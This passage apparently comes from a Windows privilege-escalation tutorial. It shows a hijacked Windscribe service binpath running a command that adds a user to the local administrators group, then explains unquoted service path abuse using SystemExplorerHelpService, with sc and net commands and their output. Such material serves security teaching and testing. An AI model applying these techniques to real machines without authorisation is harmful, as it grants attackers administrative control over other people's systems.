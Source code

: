 ##### Starting the Service
```
C:\> sc start WindscribeService

[SC] StartService FAILED 1053:
 
The service did not respond to the start or control request in a timely fashion.
```
Since we have full control over the service, we can start it again, and the command we placed in the binpath will run even though an error message is returned. The service fails to start because the binpath is not pointing to the actual service executable. Still, the executable will run when the system attempts to start the service before erroring out and stopping the service again, executing whatever command we specify in the binpath.

##### Confirming Local Admin Group Addition
```
C:\> net localgroup administrators

Alias name     administrators
Comment        Administrators have complete and unrestricted access to the computer/domain
 
Members
 
-------------------------------------------------------------------------------
Administrator
admin2
mrb3n
The command completed successfully.
```

#### Unquoted Service Path

When a service is installed, the registry configuration specifies a path to the binary that should be executed on service start. If this binary is not encapsulated within quotes, Windows will attempt to locate the binary in different folders

##### Service Binary Path

```
C:\Program Files (x86)\System Explorer\service\SystemExplorerService64.exe
```
Windows will decide the execution method of a program based on its file extension, so it's not necessary to specify it. Windows will attempt to load the following potential executables in order on servicestart, with a .exe being implied:

* C:\Program
* C:\Program Files
* C:\Program Files (x86)\System
* C:\Program Files (x86)\System Explorer\service\SystemExplorerService64

##### Querying Service

```
C:\> sc qc SystemExplorerHelpService

[SC] QueryServiceConfig SUCCESS

SERVICE_NAME: SystemExplorerHelpService
        TYPE               : 20  WIN32_SHARE_PROCESS
        START_TYPE         : 2   AUTO_START
        ERROR_CONTROL      : 0   IGNORE
        BINARY_PATH_NAME   : C:\Program Files (x86)\System Explorer\service\SystemExplorerService64.exe
        LOAD_ORDER_GROUP   :
        TAG                : 0
        DISPLAY_NAME       : System Explorer Service
        DEPENDENCIES       :
```